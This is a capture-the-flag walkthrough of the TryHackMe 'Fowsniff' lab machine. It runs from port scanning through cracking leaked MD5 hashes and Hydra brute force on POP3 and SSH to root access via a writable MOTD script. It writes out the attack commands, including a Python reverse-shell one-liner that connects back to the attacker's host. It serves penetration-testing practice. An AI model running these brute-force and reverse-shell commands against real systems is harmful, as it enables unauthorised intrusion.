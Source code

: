 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Fowsniff 1
# DESCRIPTION       . Hack this machine and get the flag. There are lots of hints along the way and is perfect for beginners!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/ctf
```

```
sudo nmap -sSVC -p- -T5 -oN fowsniff 10.10.106.143
```

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 903566f4c6d295121be8cddeaa4e0323 (RSA)
|   256 539d236734cf0ad55a9a1174bdfdde71 (ECDSA)
|_  256 a28fdbae9e3dc9e6a9ca03b1d71b6683 (ED25519)

80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Fowsniff Corp - Delivering Solutions
|_http-server-header: Apache/2.4.18 (Ubuntu)

110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: PIPELINING SASL(PLAIN) RESP-CODES TOP AUTH-RESP-CODE USER CAPA UIDL

143/tcp open  imap    Dovecot imapd
|_imap-capabilities: OK LITERAL+ more ENABLE IMAP4rev1 SASL-IR ID post-login listed capabilities AUTH=PLAINA0001 LOGIN-REFERRALS have IDLE Pre-login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- `robots.txt` doesn't reveal anything interesting, but since we're already here, let's check the webpage  too.

```
**Client information was not affected.**

Due to the strong possibility that employee information has been made publicly available, all employees have been instructed to change their passwords immediately.

The attackers were also able to hijack our official @fowsniffcorp Twitter account. All of our official tweets have been deleted and the attackers may release sensitive information via this medium. We are working to resolve this at soon as possible.

We will return to full capacity after a service upgrade.
```

- So I headed to Twitter and looked for user `@fowsniffcorp` - [link](https://twitter.com/fowsniffcorp)

- On his profile, we're able to find a link to pastebin with the following content

```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!
 
 
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
 
Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
 
Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!
 
MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P
 
l8r n00bz!
 
B1gN1nj4

-------------------------------------------------------------------------------------------------
This list is entirely fictional and is part of a Capture the Flag educational challenge.

--- THIS IS NOT A REAL PASSWORD LEAK ---
 
All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.
 
Any similarities to actual people or entities is purely coincidental and occurred accidentally.

-------------------------------------------------------------------------------------------------
```

- So we got our credentials plus some extra hints: we're alreadty told that the hashes are MD5. We're also hinted that we might need to try these on the `POP3 server`, as this is exposed. 

- Using [crackstation](https://crackstation.net/) I was able to crack almost all hashes.

```
mauer@fowsniff:{redacted}ll
mustikka@fowsniff:{redacted}01
tegel@fowsniff:{redacted}01
baksteen@fowsniff:{redacted}22
seina@fowsniff:{redacted}o2
stone@fowsniff:Not found.
mursten@fowsniff:c{redacted}er
parede@fowsniff:{redacted}12
sciana@fowsniff:{redacted}72
```

- Alright. I decided to do a banner grabing on the POP3 server before attempting anything else.

```
nc -nv <IP> 110

Connection to 10.10.106.143 110 port [tcp/*] succeeded!
+OK Welcome to the Fowsniff Corporate Mail Server!
```

- Yes, the server is open. I tried the first username with the according password but it failed.
- So I have created two files, one with usernames and one with the passwords.
- Then, I have used `Hydra` to bruteforce the service.

```
hydra -L users.txt -P pass.txt 10.10.106.143 pop3 -I -t 4
```

```
[110][pop3] host: 10.10.106.143   login: seina   password: {redacted}
```

- After a while, it seems that `seina` is the user that still has access to the mail server.

```
nc -nv 10.10.106.143 110

Connection to 10.10.106.143 110 port [tcp/*] succeeded!
+OK Welcome to the Fowsniff Corporate Mail Server!

USER seina
+OK
PASS {redacted}
+OK Logged in.
LIST
+OK 2 messages:
1 1622
2 1280

RETR 1
```

- A temporary SSH password is found in the first email.

```
The temporary password for SSH is "S{redactedll"
```

- I tried SSHing with the same as seina but I failed. I replaced the content of `pass.txt` with the password found in the email and then I've used hydra to bruteforce the SSH service.

```
hydra -L users.txt -P pass.txt 10.10.106.143 ssh -t 4 -I
```

```
[22][ssh] host: 10.10.106.143   login: baksteen   password: S{redacted}l
```

- `sudo -l` doesn't bring happy news but a simple `id` does: Our user belongs to multiple groups.

```
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```

- This is not the default behaviour; I was curios to see if there are any files owned by this group

```
find / -group users 2>/dev/null | grep -v /proc | grep -v /sys
```

```
/opt/cube/cube.sh
/run/user/1004
/home/baksteen/.cache
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir
/home/baksteen/Maildir/tmp
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log
/home/baksteen/Maildir/cur
/home/baksteen/Maildir/new
/home/baksteen/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/baksteen/Maildir/dovecot-uidlist
/home/baksteen/Maildir/dovecot-uidvalidity.5aa21fac
/home/baksteen/.viminfo
/home/baksteen/.bash_history
/home/baksteen/.bash_logout
/home/baksteen/.lesshst
/home/baksteen/term.txt
/home/baksteen/.profile
```

- Nothing interesting except `/opt/cube/cube.sh`. Let's see what's that.

```
cat /opt/cube/cube.sh 

printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```

```bash
baksteen@fowsniff:~$ ls -l /opt/cube/cube.sh 
-rw-rwxr-- 1 parede users 851 Mar 11  2018 /opt/cube/cube.sh
```

- Alright, so it's just a motd sort of thing. But it is owned by the `users` group, so we can edit it.

- By the way, this is the same MOTD displayed when we logged on the server. Let's investigate to see how it gets triggered.

- Inside the `/etc/update-motd.d` directory, we have multiple files.

- `00-header` file is owned by `root` and calls for `sh /opt/cube/cube.sh` - our script.

- Let's change its content to a reverse shell and then relog to SSH to trigger it.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

- After reconnecting to the server, we should catch a reverse shell with our listener.

```
# whoami
root
```

- The flag is in `/root/flag.txt`.

